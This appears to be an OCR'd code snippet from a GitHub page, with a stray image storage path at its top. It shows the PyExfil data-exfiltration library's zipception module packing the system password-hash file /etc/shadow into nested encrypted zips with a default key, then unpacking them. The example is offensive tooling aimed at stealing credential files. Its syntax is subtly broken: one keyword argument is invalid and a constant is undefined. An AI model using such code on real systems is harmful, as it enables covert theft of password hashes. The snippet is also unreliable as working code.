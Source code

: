 ```python3

from pyexfil.Stega.zipception import Broker, Sender

a = Sender(folder_path="/etc/shadow", key=Sender.PYEXFIL_DEFAULT_PASSWORD, Sender.iterations=NUMBER_OF_ITERATIONS)
a.Run()

b = Broker("False.zip", key=Broker.PYEXFIL_DEFAULT_PASSWORD)
b.Run()

```
